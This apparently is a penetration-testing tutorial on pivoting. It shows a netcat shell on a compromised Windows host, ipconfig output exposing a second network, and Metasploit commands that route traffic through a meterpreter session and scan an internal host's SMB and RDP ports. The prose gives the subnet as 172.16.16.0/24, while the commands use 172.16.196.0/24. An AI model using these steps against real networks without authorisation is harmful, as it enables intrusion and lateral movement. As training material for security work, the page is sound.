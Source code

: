 **Dual-homed** machines can act as bridges between networks.

```powershell
# Identify dual-homed system
$ nc 192.168.241.223 4444
C:\Users\luiza>ipconfig
...
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::8a:de6d:6427:dabb%11
   IPv4 Address. . . . . . . . . . . : 192.168.241.223
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.241.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::6fa3:81f6:4ac1:1504%14
   IPv4 Address. . . . . . . . . . . : 172.16.196.199
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
```

### Route add

We can **manually add a route** to the second network (`172.16.16.0/24`) through the existing session in order to enable MSF to route traffic through a compromised host. This allows Metasploit to **"see" and interact** with devices on that internal network.&#x20;

> _Routes in Metasploit let you scan and exploit targets behind firewalls or NAT by tunneling through a compromised host._

```bash
meterpreter > bg
[*] Backgrounding session 5...
msf6 exploit(multi/handler) > route add 172.16.196.0/24 5
[*] Route added
msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.196.0       255.255.255.0      Session 5

[*] There are currently no IPv6 routes defined.

msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.196.200
RHOSTS => 172.16.196.200
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389
msf6 auxiliary(scanner/portscan/tcp) > run
[+] 172.16.196.200:       - 172.16.196.200:445 - TCP OPEN
[+] 172.16.196.200:       - 172.16.196.200:3389 - TCP OPEN
[*] 172.16.196.200:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
